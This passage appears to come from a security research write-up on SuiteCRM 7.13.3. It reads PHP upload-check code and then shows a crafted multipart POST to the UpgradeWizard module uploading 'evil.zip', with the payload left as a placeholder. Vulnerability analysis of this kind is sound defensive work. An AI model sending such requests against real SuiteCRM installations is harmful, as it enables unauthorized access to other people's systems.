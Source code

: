The next few lines check to see if the file already exists on the filesystem. If it exists - the filesize of the uploaded file is checked to ensure that it is within the file upload limits.

```PHP
$filesize = '';
if (file_exists($file_name)) {
    $filesize = filesize($file_name);
}

$response = '';

if ($filesize !== null && (($filesize > return_bytes(ini_get("upload_max_filesize"))) || ($filesize > return_bytes(ini_get("post_max_size"))))) {
    $response = $filesize;
}

if (!empty($response)) {
    echo $response;
}

sugar_cleanup();
exit();

```

After reading through this logic, there doesn't appear to be any unique values or pre-check conditions required to continue to the actual file upload request. Therefore, we can ignore this file for now and focus on the second request.

Remember, our second request looks like this:
```HTTP
POST /SuiteCRM-7.13.3/index.php HTTP/1.1

------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="module"

UpgradeWizard
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="action"

index
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="step"

2
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="run"

upload
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="upgrade_zip"; filename="evil.zip"
Content-Type: application/zip

<ZIP DATA HERE>
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="upgrade_zip_escaped"

C%3A%5Cfakepath%5Cevil.zip
------WebKitFormBoundary9VoKZp0SUAVBNYA5--
```
